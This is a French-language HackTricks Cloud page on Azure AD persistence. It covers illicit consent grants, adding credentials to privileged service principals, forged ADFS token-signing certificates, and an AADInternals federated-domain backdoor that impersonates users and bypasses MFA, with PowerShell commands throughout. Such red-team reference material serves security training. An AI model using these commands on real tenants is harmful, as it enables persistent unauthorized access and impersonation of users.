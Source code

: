 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Consentement Illicite

Par défaut, tout utilisateur peut enregistrer une application dans Azure AD. Vous pouvez donc enregistrer une application (uniquement pour le locataire cible) qui nécessite des autorisations à fort impact avec le consentement de l'administrateur (et l'approuver si vous êtes l'administrateur) - comme envoyer des mails au nom d'un utilisateur, gestion des rôles, etc. Cela nous permettra d'**exécuter des attaques de phishing** qui seraient très **fructueuses** en cas de succès.

De plus, vous pourriez également accepter cette application avec votre utilisateur comme moyen de maintenir l'accès.

### Applications et Principaux de Service

Avec les privilèges d'Administrateur d'Application, GA ou un rôle personnalisé avec des autorisations microsoft.directory/applications/credentials/update, nous pouvons ajouter des identifiants (secret ou certificat) à une application existante.

Il est possible de **cibler une application avec des autorisations élevées** ou **d'ajouter une nouvelle application** avec des autorisations élevées.

Un rôle intéressant à ajouter à l'application serait le **rôle d'administrateur d'authentification privilégiée** car il permet de **réinitialiser le mot de passe** des Administrateurs Globaux.

Cette technique permet également de **contourner la MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Pour l'authentification basée sur des certificats

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Fédération - Certificat de signature de jeton

Avec des **privileges DA** sur AD sur site, il est possible de créer et d'importer de **nouveaux certificats de signature de jeton** et de **décryptage de jeton** qui ont une très longue validité. Cela nous permettra de **nous connecter en tant qu'utilisateur** dont nous connaissons l'ImuutableID.

**Exécutez** la commande ci-dessous en tant que **DA sur le(s) serveur(s) ADFS** pour créer de nouveaux certificats (mot de passe par défaut 'AADInternals'), les ajouter à ADFS, désactiver le renouvellement automatique et redémarrer le service :
```powershell
New-AADIntADFSSelfSignedCertificates
```
Ensuite, mettez à jour les informations du certificat avec Azure AD :
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Fédération - Domaine de confiance

Avec des privilèges GA sur un locataire, il est possible d'**ajouter un nouveau domaine** (doit être vérifié), de configurer son type d'authentification en tant que Fédéré et de configurer le domaine pour **faire confiance à un certificat spécifique** (any.sts dans la commande ci-dessous) et à l'émetteur :
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Références

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
